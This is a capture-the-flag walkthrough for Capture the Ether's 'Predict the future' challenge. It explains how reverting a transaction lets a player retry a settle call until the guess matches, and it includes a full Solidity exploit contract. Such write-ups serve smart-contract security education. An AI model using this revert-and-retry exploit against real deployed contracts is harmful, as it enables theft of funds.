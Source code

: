 ```yaml
---
description: >-
  In Capture the Ether's "Predict the future", we see our first "secret
  variable" that cannot be known prior to making our guess.
---
```


# Predict the future

In this [level](https://capturetheether.com/challenges/lotteries/predict-the-future/), we are required to "lock in" our guess prior to checking it against a future (truly unknowable) value.

### Hints

<details>

<summary>Hint One</summary>

Solving this problem does not depend at all on which value you choose for your guess. It simply needs to be one of the ten possible answers.

</details>

<details>

<summary>Hint Two</summary>

Lock in any guess between 0 and 9. For any value you choose, `settle` will sometimes generate an answer equal to it. So, is there a way to call `settle` without **really** “settling” so as to avoid settling on a value that doesn't match your guess? You will need to deploy a contract of your own in order to do this.

</details>

<details>

<summary>Hint Three</summary>

What happens when your contract calls `settle` then reverts?

</details>

### Full Walkthrough

The `answer` may be any value between 0 and 9, due to the `% 10` operation below:

```solidity
uint8 answer = uint8(keccak256(block.blockhash(block.number - 1), now)) % 10;
```

As the guess must be "locked in" in a block prior to generating the `answer`, and the `answer` is generated based on values unknowable at the time of making our guess, we truly have no way of gaining an edge by picking one guess over another. We can therefor lock in any of the 10 possible values and move on to examining the `settle` function itself.

Let's look at both the `settle` function and the `isComplete` functions:

```solidity
function isComplete() public view returns (bool) {
    return address(this).balance == 0;
}

// ...

function settle() public {
    require(msg.sender == guesser);
    require(block.number > settlementBlockNumber);

    uint8 answer = uint8(keccak256(block.blockhash(block.number - 1), now)) % 10;

    guesser = 0;
    if (guess == answer) {
        msg.sender.transfer(2 ether);
    }
}
```

If `settle` finds our guess to be correct, it transfers the balance of the contract to the player's address. This action, and only this action, will cause the `isComplete` function to return `true`. This means we can use `isComplete` as an indicator as to whether our guess was correct.

The trick is that Solidity executes transactions in an "all or nothing" manner, meaning if a single operation in the series of operations that make up a transaction reverts, the entire transaction reverts. This means we can call `settle` to check our guess, then call `isComplete` to see if the guess was correct. If the guess was _not_ correct, we can revert, cancelling the entire transaction including the line 13 above which sets `guesser` to 0. This approach allows us to call `settle` as many times as we need to before finally "settling" when our guess matches.

### Scripted Solution

```solidity
// SPDX-License-Identifier: MIT

pragma solidity 0.8.7;

interface IPredictTheFutureChallenge {
    function lockInGuess(uint8 n) external payable;

    function settle() external;

    function isComplete() external view returns (bool);
}

contract PredictTheFutureChallengeExploit {
    IPredictTheFutureChallenge private _challengeContract;
    uint8 private _guess;

    /**
     * Constructor sets `PredictTheFutureChallenge` contract.
     */
    constructor(address challengeContractAddress) {
        _challengeContract = IPredictTheFutureChallenge(
            challengeContractAddress
        );
    }

    /**
     * Calls `lockInGuess` on `PredictTheFutureChallenge` with provided guess
     * `n`.
     */
    function lockInGuess(uint8 n) external payable {
        _guess = n;

        // Call `lockInGuess` with `msg.value` ether
        _challengeContract.lockInGuess{value: msg.value}(_guess);
    }

    /**
     * Calls `settle` on `PredictTheFutureChallenge` contract. Will revert if
     * guess was incorrect.
     */
    function settle() external {
        // Call `settle` on `PredictTheFutureChallenge` contract
        _challengeContract.settle();

        // Ensure guess was correct
        require(
            _challengeContract.isComplete(),
            "PredictTheFutureChallengeExploit: Challenge not complete"
        );

        // Return contract balance to `msg.sender`
        payable(msg.sender).transfer(address(this).balance);
    }

    receive() external payable {}
}

```
